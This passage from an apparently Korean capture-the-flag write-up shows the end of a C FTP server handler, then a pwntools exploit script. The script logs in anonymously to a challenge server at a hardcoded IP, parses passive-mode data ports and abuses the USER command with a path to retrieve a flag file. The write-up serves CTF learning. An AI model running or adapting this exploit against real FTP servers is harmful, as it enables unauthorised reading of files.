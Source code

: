 ```c

        context->DataIPv4 = 0;
        context->DataPort = 0;
        context->Mode = MODE_NORMAL;
        break;

    default:
        return INVALID_SOCKET;
    }
    return clientsocket;
}
```
PASSIVE MODE로 세팅해주고, 서버가 제공하는 포트에 접속해서 데이터를 받아주면 된다.

### Exploit script
```python
from pwn import *

sa = lambda x,y : p.sendafter(x,y)
s = lambda x : p.send(x)
rvu = lambda x : p.recvuntil(x)
local =False

if local==True:
    ip = '127.0.0.1'
    mip = b'127,0,0,1'
else :
    ip = '47.89.253.219'
    mip = b'0,0,0,0'

p = remote(ip,2121)
context.log_level='debug'
pay = b'USER anonymous\r\n'
sa(b'ready',pay)
pay = b'PASS AAAAA\r\n'
sa(b' OK',pay)
pay = b'PASV \r\n'
sa(b'logged in',pay)
pay = b'MLSD /\r\n'
sa(b'Passive',pay)
rvu(mip+b',')
recv = rvu(b')')[:-1].split(b',')
recv = [int(x) for x in recv]
port = recv[0] * 256 + recv[1]
success(f"nc {ip} {port}")
s(b'USER /\r\n')
print("flag name : ",end='')
flag = input()
s(b'USER anonymous\r\n')
sa(b' OK',b'PASS AAAAA\r\n')
sa(b'logged in',b'PASV \r\n')
rvu(mip+b',')
recv = rvu(b')')[:-1].split(b',')
recv = [int(x) for x in recv]
port = recv[0] * 256 + recv[1]
success(f"nc {ip} {port}")
flag = "/"+flag
pay = b'RETR /hello.txt\r\n'
s(pay)
s(f'USER {flag[:-1]}\r\n')

p.interactive()
```
